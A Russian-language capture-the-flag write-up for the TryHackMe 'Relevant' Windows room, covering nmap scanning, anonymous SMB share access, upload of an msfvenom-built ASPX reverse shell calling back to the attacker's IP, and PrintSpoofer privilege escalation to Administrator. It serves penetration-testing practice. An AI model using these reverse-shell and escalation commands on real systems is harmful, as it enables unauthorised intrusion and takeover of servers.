









# TryHackMe: Relevant

**Платформа:** TryHackMe  
**Сложность:** Medium  
**Дата:** 25.11.2026

## 1. Описание комнаты

Relevant - это машина на Windows, которая имитирует реальный корпоративный сервер с несколькими открытыми сервисами. Задача: найти точки входа, получить первоначальный доступ и повысить привилегии до администратора. Комната отлично подходит для отработки навыков инфраструктурного пентеста на Windows.

# 2. Разведка + Первый флаг

Первое с чего я начал - разведка. С помощью `nmap` я провел разведку: 

`nmap -p 80,135,139,445,3389,49663,49667,49669 10.112.130.106 -sC -sV `  

После я получил такой вывод:

С помощью `nmap` были обнаружены открытые порты, включая 445 (SMB) и 49663 (HTTP IIS). При проверке SMB-шар анонимным доступом была найдена шара `nt4wrksv`:

`smbclient \\\\10.112.130.106\\nt4wrksv` - без пароля.

Подключившись, я обнаружил файл `passwords.txt` 
Далее я создал файл `test.txt` и попробовал его загрузить, текст моего файла отображается, тоесть мы можем загрузить шелл.

Далее я создал и загрузил шелл, где в `LHOST` я указал свой айпи, а в `LROPT` порт 1234:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.112.118.150 LPORT=1234 -f aspx > payload.aspx`  
`put payload.aspx`  

Дальше я буду подключатся через `netcat` и порт `1234`: 

Далее я смог прочитать файл `user.txt` и найти первый флаг:

`cd c:\users`  
`dir`
`cd Bob`  
`dir`  
`cd Desktop`  
`dir`  
`type user.txt`  

## Второй флаг

Далее я скачал утилиту `PrintSpoofer` для повышения привелегий на Windows и перенес ее в свою домашнюю директорию AttackBox.

Я получил `RCE`, но я работаю под низкопривилегированным пользователем. У этого пользователя часто есть привелегия `SeImpersonatePrivilege`. PrintSpoofer использует эту привелегию, чтобы притвориться системным процессом и получить полный доступ.

Далее я через smb загрузил `PrintSpoofer.exe` (Все айпи стали другие, т.к. я перезапускал машину, также не будет файла test.txt).

Далее я ввел такую команду для запуска и получения полного доступа`PrintSpoofer.exe -i -c cmd`

После получения полного доступа, я продвинулся до пользователя `Administrator`, который был замечен ранее:

`cd C:\`
`cd \users`
`cd Administrator`
`dir`
`cd Desktop`
`dir`
`type root.txt`

И все, получаем второй флаг.
